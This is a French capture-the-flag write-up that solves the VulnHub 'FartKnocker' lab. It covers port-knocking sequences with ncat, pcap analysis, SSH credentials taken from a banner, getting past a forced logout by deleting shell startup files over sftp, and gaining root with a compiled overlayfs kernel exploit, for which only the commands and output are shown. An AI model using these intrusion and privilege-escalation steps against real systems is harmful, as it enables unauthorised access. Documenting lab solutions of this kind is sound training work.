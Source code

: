 ```yaml
---
title: "Solution du CTF FartKnocker de VulnHub"
tags: [CTF, VulnHub]
---
```


[TopHatSec: FartKnocker](https://vulnhub.com/entry/tophatsec-fartknocker,115/) est le dernier d'une série de 3 CTFs. Le titre du CTF laisse entendre qu'il y aura du port-knocking (tenter de se connecter à une suite de ports dans un ordre précis en ouvre un autre).

Pou commencer on dispose juste du port 80 :

```
Nmap scan report for 192.168.56.101
Host is up (0.00018s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.7 (Ubuntu)
```

Sur la page du site on trouve une capture réseau au format pcap. On l'ouvre avec `Wireshark` et on trouve quelques tentatives (flag `SYN` mais réponse `RST`) pour accèder à des ports TCP.

D'abord une série sur les ports 7000, 8000 puis 9000 et ensuite une autre série avec les même ports et une tentative final sur le port 8888.

Je reproduis la séquence avec `ncat` :

```bash
ncat -z 192.168.56.101 7000; ncat -z 192.168.56.101 8000; ncat -z 192.168.56.101 9000; ncat -z 192.168.56.101 8888
```

et lors d'un nouveau scan de ports, on a un nouveau service :

```
8888/tcp open  sun-answerbook?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, LSCP, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns: 
|_    /burgerworld/
```

Le port ne retourne que le message `/burgerworld/`. On se rend donc sur ce path sur le port 80 et on a un nouveau fichier pcap...

Sur celui-ci on a des données transmises lors de la connecion au port 8080 :

```

                      MMMMMMM           MMMMMMH 
                HMMMMM:::::::.MMMMMMMMMM:::::.TMM
              MMMI:::::::::::::::::::MMH::::::::TM
            MMIi::::::::::::.:::::::::::::::::::::MMMM
           MT::::.::::::::::::::::::::::::::::::.::=T.IMMM
         MMMi:::::::::::::::::::::::::::::::::::::::::::MT)MM
     MMMI.:::::::::::::::::::::::::::::::::::::::::::.:::M= MM
   XMXi::::::::::::::::::::::.:::::::::::::::::::::::::::::::=MM
   MMi::::::::::::::::::::::::::::::::::::::::::::::::::.::..:=MMM
  MM:MMT:::::::::.:::::::::::::::::.:::::::::::::::::::::::::::MiMM
   MMM::::::::::::::::::.::::::::::::::::::::::::::.::::::::::.TM.MM
   MMi::::::::::::::.::::::::::::::::::::::::::::::::::::::.:::.:: M
   MM:::.::::::::::::::::::::::::::::::::.:.:::::::::::::::::::::: XM
 MM:MT::.::::::::::::::::::::::::::::::::::::::::::::::::::::::::::XM
IMM:::.::::::::::::::::::::::::::::::::::: :::::::::::::::::::::::.=M
 MM::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::: :::M
 XMT:::::::::::::::::::::: ::::::::::::::::: : ::::::::::::::::::: iM
   MiMi:::::::::: :::::::::::::::::::::::::::::::: ::::::::::::::.:IM
     M::::::HH::::::::::::::::::::::::::::::::::::::::::::::::::::: M
     MT:::::iM::::::::Hi:iXH:::ii::XH:::::::::::::.::::::::::::::.:.M
      MX:::::iMX:i::::iMi:iMH::XH::Mi:::::::::::::::::::::::::::::: M
        Mii::::HMH:::::iMH::MH=:MM=TMi::::::::::::::::::::::::::::::MM
          MMMMMMMMMMMXTi:MMHi:HMMIMMMMii::::::::::::::::::::::::::::XM
           XXOXMMT:. ::T= :IMMMMMMM=iXMii:::::::::::::::::::::::::: MM
            MMMH:::.:::::::.::::.::::.:XMi::::::::::::::::::::::::::MM
           XMM::.:.:..::..:.:.::.:.::: ::XMi::::::::::::::::::::::::MX
          XMMT::::.:.::.::::.::.::::::::.::XH:::::::::::::::::::::: M
          HMX::...:..::..:.:.::::::..... :::XX::::::::::::::.:::::. M
          MM:::....:::::.::::::..:::::.:..:::HX::::::::::::::::::::=M
          MX::::::::::::::::::::::..::::.:..::X::::::::::::::::::::IM
         XMI..  .:.::....:..::::.:: ::...::.:.MH:::::::::::::::::.: M
         MM:. ::..::....::.::::::....:.:...:..MT::.   ::::::::: :..IM
         MM=:::::.::.:::::..::::.: .::..::..::Mi:::::::::::::::::: MM
         MMI:::...:  .::..::::::.:::::::.::::TM:::::::::::::::::::=MO
          MH.: .::::.::.. .:::::iLMXX=::::.:.Mi::::::: ::::::::::.MM
          MX:.:..:: .:.:.:.: :MMM:::..:::::.HM:::: :::::::::::::.MM
          MM:::...::....: ::IMT:::.:...:.::.MT::::::: ::::::::: MM
           M=::..::::..:::MM:i:..::.:...: ::M:::: ::: ::::::::::MI
           MH::: :.:.: MMMM=:::.:.:...:....iM::: ::::::  ::::::LM
          MMMMT.::. ::TM:::::..::::::::.::.IM::::HH:::::::::::.MO
           MM:LM::T:MT.:: .......:....:.:: TMMiXMT.MH:::.::::.:M=
            M:. :::MMi:::MMMM=::::::.::..::=MMMMMMXMH:::.:::::MM
           XMI: :..::=MX  :M::.......:...:::.MXTHM MH:::.: :.XM
           MM XMMI IM    M   ................:: :MIIM:::::::MMO
            MMXXMILM  .ML.= :.:::....:.:..::.:..:::MMT:::::TMM
              MXMLMMMT::.:...:........ ....::.:.=.MMMM:::::MM
              MHM=:: :.:::...::::.:...:.....:: =MMM==Mi::::M
              MM=:::.......:.:.::.:.::...:.: ::  . ::=M:: MM
             MMi:=XMMMi::::...:::::.::.:::::::::..: ::Mi:=MT
            MM=:I::  :iMH==:::::.::.:::::::::::::::.::MT:XMT
           MT=:=MMMMMMM=HM::::.::::::MMT=Mi::::::..:::MI=MM
          M ::::::.=I= .MX:..: ::::.::MX::::.:::.:.  .XMMM
         M:MMMMMMM=.::::  ::.::...:.MMIM::.:::.::..::::M
                 M=:: : ::::.==XMMM:XMMM=:::.::.:.::::.M
                 M=.IMMM )X   M  MMMMMM=:::..::..:::.::M
                 MM  X  MMM:MMMMMMMMM=:::.:.:.. .:.::::M
                  MIMMMMMMMMMMMMMMI::::::::.:::.:...:.:M
                MMMMMMMMMMMMMX:.   .:..::....:...:::.:iM
               MMMMMMMMMMI::::::.:.::...:....:.....:.:=M
           MMMMMMMMMI:::::.:.. :.::.::..........:..:..:M
            M=:  :..::..::.........::.......::.:.....: M
             MMMi::::::.:.:==MMMMMMMMMT:.:.:::..:::..: OM
               MM=::..: OMMMM         MMMT:::....:.::: :M
                M=::::MM                MMI:::........:OM
                 MMMMM                   MMH:::..::MMMMMM
                                          MMMMMMMMMMMMMMM


                     CAN YOU UNDERSTAND MY MESSAGE?!



			  eins drei drei sieben
```

Soit 1 3 3 7 en allemand. On se connecte au port 1337 et on obtient le lien `/iamcornholio/` qui délivre le message `T3BlbiB1cCBTU0g6IDg4ODggOTk5OSA3Nzc3IDY2NjYK` soit, décodé en base64 :

> Open up SSH: 8888 9999 7777 6666

De la même façon je suis la séquence de ports avec ncat et je peux désormais accèder au port 22. N'ayant pas d'identifiants particuliers à saisir j'utilise `Beavis` mais le service donne suffisamment d'informations :

```bash
$ ssh Beavis@192.168.56.101
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ED25519 key fingerprint is SHA256:Uezp17zkhiRikxBiu5NIZtI0d6nSfyNmetGpcB8AjOA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.101' (ED25519) to the list of known hosts.
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
Beavis@192.168.56.101's password:
```

On utilise ces identifiants pour nous connecter mais on est aussitôt déconnectés :

```bash
$ ssh butthead@192.168.56.101
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
butthead@192.168.56.101's password: 
Welcome to Ubuntu 14.04.2 LTS (GNU/Linux 3.13.0-46-generic i686)

 * Documentation:  https://help.ubuntu.com/
Last login: Tue Mar  3 01:02:49 2015 from 192.168.56.102
You are only logging in for a split second! What do you do!
```

On peut passer à SSH la commande à exécuter, ici bash :

```bash
$ ssh butthead@192.168.56.101 bash
############################################
# CONGRATS! YOU HAVE OPENED THE SSH SERVER #
# USERNAME: butthead                       #
# PASSWORD: nachosrule                     #
############################################
butthead@192.168.56.101's password: 
ls -al
total 28
drwxr-xr-x 3 butthead butthead 4096 Mar  3  2015 .
drwxr-xr-x 4 root     root     4096 Mar  3  2015 ..
-rw-r--r-- 1 butthead butthead  220 Apr  8  2014 .bash_logout
-rw-r--r-- 1 butthead butthead 3685 Mar  3  2015 .bashrc
drwx------ 2 butthead butthead 4096 Mar  3  2015 .cache
-rw-rw-r-- 1 butthead butthead   67 Mar  3  2015 nachos
-rw-r--r-- 1 butthead butthead  747 Mar  3  2015 .profile
tail .bashrc
  if [ -f /usr/share/bash-completion/bash_completion ]; then
    . /usr/share/bash-completion/bash_completion
  elif [ -f /etc/bash_completion ]; then
    . /etc/bash_completion
  fi
fi

logout
pkill -Kill -u butthead
TMOUT=1
```

Les fichiers `.bashrc ` et `.profile` ont des commandes qui terminent notre connexion. On peut utiliser `sftp` pour les supprimer :

```bash
sftp> rm .bashrc 
Removing /home/butthead/.bashrc
sftp> rm .profile
Removing /home/butthead/.profile
```

Une fois connecté on ne voit rien de particulier pour passer root. Le système semble toutefois vulnérable à `DirtyCOW` et `overlayfs`.

L'exploit pour `DirtyCOW` semble rendre le système instable et je suis obligé de le redémarrer.

L'exploit pour `overlayfs` marche bien en revanche :

```bash
$ gcc -o ofs ofs.c
$ ./ofs
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# id
uid=0(root) gid=0(root) groups=0(root),1001(butthead)
# cd /root
# ls
SECRETZ
# cat SECRETZ
You have done a great job, if you can see this, please shoot me an email
and let me know that you have beat this box!

SECRET = "LIVE LONG AND PROSPER, REST IN PEACE MR. SPOCK"

admin@top-hat-sec.com
```

Autre solution possible : l'utilisateur local `beavis` avait un mot de passe relatif au dessin animé (voir [ContactL3ft's Randomness: TopHatSec - Fartknocker VM](https://c0ntactl3ft.blogspot.com/2015/04/tophatsec-fartknocker-vm-hosted-on.html)).

Le mot de passe n'étant pas dans la wordlist rockyou, une attaque bruteforce n'aurait pas aboutit.

*Publié le 2 janvier 2023*
